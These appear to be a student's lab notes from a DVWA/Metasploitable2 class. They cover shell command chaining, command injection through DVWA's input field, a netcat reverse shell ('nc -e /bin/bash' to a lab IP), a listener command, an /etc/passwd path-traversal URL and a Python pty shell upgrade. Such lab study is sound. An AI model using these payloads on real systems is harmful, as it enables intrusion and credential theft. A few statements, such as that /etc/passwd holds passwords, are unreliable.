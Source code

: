 ## Overview
- Talked about chaining commands ( using ; or | )

Ex: `ping -c 3 8.8.8.8; ip a`

The above command pings the 8.8.8.8 address 3 times, and then executes the `ip a` command

( || basically means that if the first command fails, it will do what is after the ||)

Ex: `ping -c 3 blabla || whoami`

- This will first ping a certain IP address 3 times, but of course, blabla is not an IP address, so the second command `whoami` will be executed.

## Command Execution
- Set security level of DVWA to low (at Metasploitable instance) 
The security level of the DVWA site emulates the amount of protections put in place to make a web app secure.

- `&&` implies that only if the first command succeeds, the second will run.
- Think of `&&` and `||` as opposites.

- `&` runs the first command in the background so you can still have terminal access.

- `for i in $(ls); do ls -a; done`

- This command uses`$()` to invoke bash scripting.

- Talked about POSIX standards; something under this standard will work on **any** UNIX machine.

Everything we talked about in the realm of command symbols:

`; | || & && $() ``

These are all ways to chain commands.


- We now started working under the 'Command Execution' tab on DVWA.


 Here, we basically used command chaining to exploit this vulnerable input field to have unsanitized command input be run.

 NOTE: after changing the DVWA security level to medium, we can see that the command chaining vulnerability no longer works! The application now seems to be sanitizing/filtering out chaining symbols such as |, ||, &, &&...

- If we click 'View Source' we can see that the previous command execution vulnerability is being accounted for by converting entered chaining symbols (`&& | ||...` ) into nothing (just `''`).

### Setting up Reverse Shell using Command Execution Page

- Using Netcat here

- Remember, we must set a listener and connector

`sudo nc -nvlp 80`

^Setup listener with that command

- Now we entered reverse shell  commands through the unsanitized input field on DVWA. (any commands entered on DVWA are executed on our Metasploitable2 instance).

- We used python today to make our shell information clearer to us.

![[Pasted image 20220216183315.png]]

Woah look how sick that is we just got a connection to our listening machine through the DVWA command execution page. 

This was possible through command chaining; the page didn't fully sanitize out `|` inputs in the field.

Its way too common that web developers do not sanitize their input fields for command/code injection vulnerabilities.

## File Inclusion

- First we copy the entire URL of the File Inclusion tab 

	`curl`

	`sudo apt update && sudo apt install curl -y`


`192.168.169.129/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd`

by typing this into the search bar and change the 'page=' direct to a combination of ../ followed by *etc/passwd* , we  are trying to backtrack across all directories of this webpage, so we can then navigate to the directory (etc/passwd) that can be expected to hold passwords that we shouldn't be able to be seeing.


- Bash is the programming language that every terminal uses.

## Connecting to listening port using netcat

- `nc -e /bin/bash 192.168.133.129 80`


### Using Python to Upgrade a Shell (Spawn a Better Shell)

- `python -c "import pty; pty.spawn('/bin/bash');"`


**Changing environment variables permanently:**

From home directory:
`ls -la`

Followed by:
`nano .bashrc`

